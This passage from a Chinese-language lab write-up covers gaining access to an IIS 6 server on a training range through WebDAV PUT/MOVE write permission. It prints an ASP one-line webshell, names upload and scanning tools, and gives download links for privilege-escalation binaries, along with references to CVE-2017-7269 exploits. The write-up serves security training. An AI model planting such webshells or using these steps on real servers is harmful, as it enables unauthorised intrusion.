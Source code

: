 ![][6]

会返回`401 Unauthorized`，这个不影响，直接上蚁剑连接：

![][7]

成功拿到`flag`

### 工具操作

`IIS Put Scaner v1.3`，来自[`nosec`][8]，源网页已经找不到了，可以简单探测：

![][9]

可以看到`PUT`为`YES`，所以具有写权限，还有一款扫描工具`DotNetScan`:

![][10]

上传`asp`木马的话使用著名工具桂林老兵的`iiswrite`

软件的标题为：`对IIS写权限的利用 / 自定义数据包提交 - 桂林老兵作品`(目前下载默认被火绒查杀)

知道了有写权限后，我们来上传把`asp`后缀改为`txt`的木马(只能上传`txt`文件)

```
<%eval request("soapffz")%>
```

返回`201`说明上传成功，但是此时木马不能被解析，再用工具的`MOVE`或者`COPY`方法把后缀改为`asp`

但是这个工具有一个缺陷，就是默认只能测试`80`端口的站点，如果站点不在`80`端口无法使用：

![][11]

## 0x04 尝试拿下服务器

### 看看我是啥权限

靶场做完了，不继续搞一下不就浪费了我 4 个靶场币吗？

看下权限：

![][12]

连`whoami`都不能执行，权限很低啊，根据参考文章：[拿到 webshell 后虚拟终端拒绝访问][13]

操作如下；

下载 cmd.exe 和 iis6.0.exe

```
https://sudo0m.coding.me/update/webshell/cmd.exe
https://sudo0m.coding.me/update/webshell/iis6.exe
```

然后上传到网站根目录，这里上传的时候蚁剑还报了`500 Internal Server`错误


[1]: https://www.mozhe.cn/bug/detail/VnRjUTVETHFXWk5URWNjV2VpVWhRQT09bW96aGUmozhe
[2]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200401_143652.png
[3]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200401_150455.png
[4]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_191217.png
[5]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_193839.png
[6]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_194516.png
[7]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_194704.png
[8]: https://nosec.org/home/index
[9]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200401_151949.png
[10]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200401_221600.png
[11]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200401_215805.png
[12]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_210815.png
[13]: https://blog.csdn.net/sudo0m/article/details/85549259
[14]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_212406.png
[15]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_212524.png
[16]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_212621.png
[17]: https://github.com/SecWiki/windows-kernel-exploits
[18]: http://www.admintony.com/CVE-2017-7269.html
[19]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200401_224022.png
[20]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_203113.png
[21]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_203140.png
[22]: https://github.com/admintony/Windows-Exploit/tree/master/IIS6_WebDAV_Scanner
[23]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200402_210354.png
[24]: https://github.com/zcgonvh/cve-2017-7269
[25]: https://img.soapffz.com/archives_img/2020/04/01/archives_20200401_150621.png
[26]: https://www.lxhsec.com/2019/03/04/middleware/
[27]: https://mp.weixin.qq.com/s/FHb82rhk-63HSU7R_g1Atw
[28]: https://xz.aliyun.com/t/6783